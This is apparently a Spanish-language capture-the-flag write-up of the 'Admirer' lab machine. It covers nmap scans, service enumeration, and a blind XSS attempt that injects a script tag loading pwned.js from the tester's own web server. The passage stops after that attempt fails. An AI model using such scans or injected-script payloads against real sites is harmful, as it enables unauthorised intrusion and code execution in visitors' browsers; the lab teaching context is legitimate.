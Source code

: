 ![Desktop View](/assets/img/Admirer/Pasted image 20221101141730.png){: width="972" height="589" }
nmap Recognise scripts:
```bash
nmap -sCV -p21,22,80 10.129.8.174 -oN targeted 
```

![Desktop View](/assets/img/Admirer/Pasted image 20221101141940.png){: width="972" height="589" }

---

# Enumeration

## Port 21 - ftp vsftpd 3.0.3
Puerto 21
Con nmap nos daria informacion si el [[FTP]] se puede acceder anonimamente. Tambien podriamos con un comando.
```sh
nmap --script ftp-anon -p21 10.129.8.174
```
Pese a esto podemos buscar en searchsploit vsftpd para ver si hay alguna manera de explotarlo. Pero no hay para la version 3.0.3 de momento.


## Port 22 - Codename OpenSSH 7.4p1 Debian 10+deb9u7
Puerto 22

Buscar en Internet: Launchpad Port 22 - OpenSSH 7.4p1 Debian 10+deb9u7 y nos da como Codename #Strech

## Port 80 - http Apache httpd 2.4.25
Puerto 80

El vector de ataque ira por [[Remote Desktop]] ya que no tengo credenciales para ftp ni para ssh.
Podemos usar [[whatweb]]  a traves de comandos o [[Wappalyzer]] la extension del navegador.
```sh
whatweb -v 10.129.8.174
```

### Option 1
Vemos un formulario por lo que podemos intentar un [[XSS Injection]] o con una pequeña traza.
Para ello con python nos montamos un servidor web en un puerto a nuestra eleccion:
```python
python3 -m http.server 8080
```

Y en el formulario que podemos enviar añadimos un script html:
```html
<script src="http://10.10.14.49/pwned.js"></script>
```

Como el servidor no ha recibido nada detectamos que no es vulnerable y podemos desecharlo.
